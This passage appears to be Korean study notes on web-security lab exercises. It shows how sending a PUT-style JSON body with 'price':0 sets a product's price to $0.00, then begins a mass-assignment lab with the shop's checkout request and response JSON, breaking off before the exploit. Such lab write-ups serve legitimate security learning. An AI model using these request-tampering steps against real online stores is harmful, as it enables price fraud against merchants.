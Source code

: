 5.  application/json이므로 빈 json 객체를 본문에 넣어서 전송 
```
{}

// 결과

{"type":"ClientError","code":400,"error":"'price' parameter missing in body"}
```

6. error 를 참고해서 price 파라미터 추가 
```
{
	"price":0
}

// 결과
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 17

{"price":"$0.00"}
```

7. 다시 해당 상품페이지 접근하면 가격이 0원 되어 있음 !! 


# 4. [실무자] 대량 할당 취약점 악용 

> 숨겨진 Json 매개변수 찾는 취약점

1. 장바구니 조회하기 api 및 응답 json 
```
GET /api/checkout
->
{
	"chosen_discount":{
		"percentage":0
	},
	"chosen_products":[
		{
			"product_id":"1",
			"name":"Lightweight \"l33t\" Leather Jacket",
			"quantity":1,
			"item_price":133700
		}
	]
}
```

2. 주문하기 api 요청 
	장바구니 조회하기와 비슷한 json 구조이다.
```
POST /api/checkout 

{
	"chosen_products":[
		{
			"product_id":"1",
			"quantity":1
		}
	]
}
```
